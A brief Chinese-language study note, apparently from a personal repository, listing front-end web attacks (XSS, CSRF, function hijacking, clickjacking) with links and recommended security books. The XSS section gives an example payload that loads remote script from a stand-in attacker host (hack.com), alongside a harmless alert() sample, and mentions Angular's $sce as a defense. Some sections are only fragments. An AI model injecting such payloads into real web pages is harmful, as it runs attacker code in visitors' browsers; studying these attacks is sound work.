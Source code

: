 ## XSS攻击
主要是注入脚本，如论坛里面用户输入`<script>alert();</script>`，页面回显的时候如果没有处理js脚本，就可能造成攻击。angular的$sce就是用来处理XSS攻击的。`<script>$.getScript('http://www.hack.com/index.js');</script>`

## CXRF攻击
[栗子](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

## 函数劫持
控制台改代码

## XSS与函数劫持
```
$.post();
```

## 界面操作劫持
[栗子](http://blog.csdn.net/c2iekqea/article/details/55684701)


## 书籍

[Web前端黑客技术揭秘](https://item.jd.com/12878817351.html)
[Web前端黑客技术揭秘(视频)](https://ke.qq.com/course/133640)

[白帽子讲Web安全](https://item.jd.com/11483966.html)
[白帽子讲Web扫描](https://item.jd.com/15503446687.html)
